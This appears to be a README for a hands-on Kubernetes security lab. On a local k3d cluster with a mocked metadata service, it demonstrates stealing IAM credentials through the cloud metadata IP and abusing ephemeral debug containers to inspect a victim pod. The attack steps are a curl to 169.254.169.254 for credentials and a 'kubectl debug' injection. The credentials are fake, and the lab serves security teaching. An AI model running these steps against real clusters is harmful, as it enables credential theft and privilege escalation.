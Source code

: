 # Lab 7 – SSRF & Ephemeral Containers

## Overview
This lab demonstrates two real-world Kubernetes attack techniques:
1. **SSRF to Cloud Metadata** – Using a compromised pod to steal cloud IAM credentials and pivot to cloud resource access.
2. **Ephemeral Container Debugger Abuse** – Injecting a debug container into a running pod to execute arbitrary tools.

---

## Part 1 – SSRF to Cloud Metadata

### Goal
Simulate an attacker in a compromised pod making HTTP requests to the node’s cloud metadata service to steal IAM credentials, then using those credentials to access cloud resources.

Since k3d isn’t running in AWS, we’ll mock the metadata service.

### Setup

#### 1. Create mock metadata and cloud resource data
```bash
mkdir -p mock-data/latest/meta-data/iam/security-credentials
cat > mock-data/latest/meta-data/iam/security-credentials/role-name <<EOF
{
  "Code" : "Success",
  "LastUpdated" : "2025-08-08T00:00:00Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "FAKEACCESSKEY12345",
  "SecretAccessKey" : "fakeSecretKey987654321",
  "Token" : "fakeSessionToken==",
  "Expiration" : "2025-08-09T00:00:00Z"
}
EOF

mkdir -p mock-data/cloud
cat > mock-data/cloud/resources.json <<EOF
{
  "Buckets": ["sensitive-logs", "customer-data", "prod-backups"],
  "VMs": ["k8s-node-1", "k8s-node-2"]
}
EOF
```

#### 2. Run the mock metadata & cloud resource service
```bash
docker run -d   --name mock-metadata   --network host   -v $(pwd)/mock-data:/usr/share/nginx/html   nginx:alpine
```

This exposes:
- `http://169.254.169.254/latest/meta-data/iam/security-credentials/role-name`
- `http://169.254.169.254/cloud/resources.json`

#### 3. Bind the metadata IP to the host loopback
```bash
sudo ip addr add 169.254.169.254/32 dev lo

# test from the host
curl -s http://169.254.169.254/cloud/resources.json | jq .
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/role-name | jq .
```

#### 4. Create the k3d cluster and namespace
```bash
k3d cluster create lab7 --servers 1 --agents 1
kubectl config use-context k3d-lab7
kubectl create ns lab7
```

#### 5. Deploy a victim pod
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: ssrf-victim
  namespace: lab7
spec:
  containers:
  - name: app
    image: curlimages/curl
    command: ["sleep", "infinity"]
```
```bash
kubectl apply -f ssrf-victim.yaml
kubectl -n lab7 wait pod/ssrf-victim --for=condition=Ready --timeout=90s
```

### Attack Steps

#### 1. Exec into the victim pod
```bash
kubectl -n lab7 exec -it ssrf-victim -- sh
```

#### 2. Retrieve IAM credentials
```bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/role-name
```

#### 3. Use stolen credentials to list “cloud resources”
```bash
curl http://169.254.169.254/cloud/resources.json
```

**Impact:** In a real cloud environment, these credentials could be used to list, read, or modify cloud resources — escalating a pod compromise into a cloud-level breach.

---

## Part 2 – Ephemeral Container Debugger Abuse

### Goal
Show how an attacker with RBAC permissions can inject a debug container into a running pod to gain access to its filesystem and processes.

### Setup

#### 1. Deploy a victim pod
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: victim-pod
  namespace: lab7
spec:
  containers:
  - name: web
    image: nginx
```
```bash
kubectl apply -f victim-pod.yaml
kubectl -n lab7 wait pod/victim-pod --for=condition=Ready --timeout=90s
```

### Attack Steps

#### 1. Inject a debug container
```bash
kubectl -n lab7 debug victim-pod --image=busybox --target=web
```

#### 2. Inside the ephemeral container, explore the victim’s filesystem & processes:
```bash
cat /etc/nginx/nginx.conf
ps aux
```

**Impact:** Ephemeral containers run in the same namespace as the target container, giving direct access to its processes, network, and files.

---

## Cleanup
```bash
kubectl delete ns lab7
docker rm -f mock-metadata
sudo ip addr del 169.254.169.254/32 dev lo
k3d cluster delete lab7
```

---

## Key Takeaways
- **SSRF to Cloud Metadata**: A pod compromise can lead to cloud account compromise if metadata services are accessible.
- **Ephemeral Container Abuse**: Even without modifying the pod spec, attackers can inject containers if RBAC allows it.
